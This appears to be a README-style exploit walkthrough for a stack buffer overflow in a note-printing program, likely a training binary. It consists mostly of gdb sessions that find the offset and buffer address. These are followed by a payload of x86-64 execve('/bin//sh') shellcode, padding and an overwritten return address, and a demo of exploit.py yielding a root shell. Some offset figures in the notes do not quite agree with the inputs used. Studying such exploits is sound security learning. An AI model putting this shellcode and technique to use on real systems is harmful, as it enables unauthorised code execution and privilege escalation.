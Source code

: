 # How it works
0x0000000000000bae <+39>:	lea    -0x70(%rbp),%rax

- 112 + 14 to the stack == 126

(gdb) break main
Breakpoint 1 at 0x555555554b8b

(gdb) run $(python -c 'print "A"*120')
Breakpoint 1, 0x0000555555554b8b in main ()

(gdb) print $rbp - 0x70
$1 = (void *) 0x7fffffffe090

(gdb) run $(python -c 'print "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "A"*90 + "\x7f\xff\xff\xff\xe0\xb0"[::-1]')

The program being debugged has been started already.

Breakpoint 1, 0x0000555555554b8b in main ()
(gdb) c
Continuing.
H1�H�//bin/shH�SH��PWH���;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
-------[ end of note data ]-------
process 27222 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
# 

- We use $rbp - 0x70 as the return address in exploit.py

# How to use exploit
root@kali:~# python exploit.py 
- [DEBUG] found a 10 byte note for user id 0
- -------[ end of note data ]-------
- process 7588 is executing new program: /bin/dash
- ~# whoami
- root
